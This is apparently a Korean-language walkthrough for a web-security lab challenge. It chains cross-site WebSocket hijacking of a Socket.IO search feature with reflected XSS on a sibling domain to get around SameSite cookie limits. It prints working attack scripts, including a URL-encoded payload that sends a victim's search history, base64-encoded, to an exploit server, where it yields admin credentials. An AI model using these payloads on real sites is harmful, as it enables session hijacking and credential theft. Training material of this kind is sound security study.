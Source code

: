# 문제 풀이 시나리오

## 1. 검색 기능 분석

- 검색창에 무언가를 검색하면 검색 기록도 반환됨
- 검색 기록은 세션에 따라 반환됨
- 개발자 툴을 통해 살펴보면 웹소켓 통신을 확인하면 Socket.IO 프로토콜을 확인할 수 있
- CSWSH(Cross-Site WebSocket Hijacking) 취약점 가능성을 발견할 수 있음.
- 페이지 새로고침 시 클라이언트는 READY 메시지를 서버에 보내고, 서버는 해당 세션의 검색 기록을 반환함.
- 단순 new WebSocket(...).send("READY")는 동작하지 않음.
- Socket.IO 클라이언트를 사용해 socket.emit("READY", …) 해야 함.

## 2. CSWSH 취약점 확인

- 참가자는 search.js 코드를 분석하고 공격 스크립트를 작성함.
- 공격 스크립트를 익스플로잇 서버에 보내면, Puppeteer가 이를 자동으로 실행했다고 가정함.
- 즉, 피해자가 실제로 열어보지 않아도, 서버는 공격 스크립트 실행 결과를 victim이 실행한 것처럼 처리함.
    
    ### 2-1. 공격 스크립트 작성
    
    - 웹소켓 주소를 알아내서 READY 메시지를 서버에 보내고 검색 기록을 수집하여 익스플로잇 서버에 전달
        
        ```html
        <script src="http://127.0.0.1:5000/static/js/socket.io.min.js"></script>
        <script>
        const socket = io("http://web:5000"); // Socket.IO 연결
        socket.on('connect', () => socket.emit("READY", {}));
        socket.on('search_history', (data) => {
          fetch(`http://exploit:8000/collect?job=${jobId}&msg=${btoa(data.search_term)}`);
        });
        </script>
        ```
        
    - /logs 확인해보면 검색 기록이 유출되지만 세션 쿠키가 포함되지 않기 때문에 새 세션의 검색 기록만 얻을 수 있음
    - 서버가 SameSite=Strict이기 때문에 크로스사이트 요청에 쿠키를 보내지 않음을 확인할 수 있음

## 3. sibling domain에서 추가 취약점 발견

- 리소스 응답에 Access-Control-Allow-Origin 헤더가 sibling domain을 허용하는 것 확인
- 해당 페이지에 접속해보면 로그인 폼을 확인할 수 있음
- reflected XSS 취약점이 있는 것을 확인할 수 있음
    - `<script>alert(1)</script>` 보내서 확인 가능
- POST 요청을 GET으로 변환해도 XSS가 동작하는지 확인하고(동작함)
    - burp의 change request method로 가능
- URL로 직접 공격 코드 삽입
- sibling 도메인이 같은 사이트로 간주되어 SameSite 쿠키 제한 우회에 이용 가능함

## 4. SameSite restrictions 우회

- 이전 익스플로잇 스크립트를 URL 인코딩해서 sibling domain의 로그인 페이지의 username 파라미터에 삽입하는 코드 작성
    
    ```html
    <script>
    //sibling domain endpoint /login 뒤에 인코딩한 것 전체 복붙
    document.location="https://cms-0a53007a03d749349b3171130036002b.web-security-academy.net/login?username=%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%35%33%30%30%37%61%30%33%64%37%34%39%33%34%39%62%33%31%37%31%31%33%30%30%33%36%30%30%32%62%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%09%20%20%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%39%39%30%30%38%64%30%33%37%30%34%39%36%30%39%62%35%63%37%30%63%35%30%31%36%35%30%30%64%62%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b&password=z";
    </script>
    ```
    
- 익스플로잇 서버에서 전송
    
    => 전체 검색 기록이 유출됨. 유출된 기록에 admin 로그인 정보 포함
    

### 5. 로그인

- admin 정보를 통해 로그인하면 flag 획득
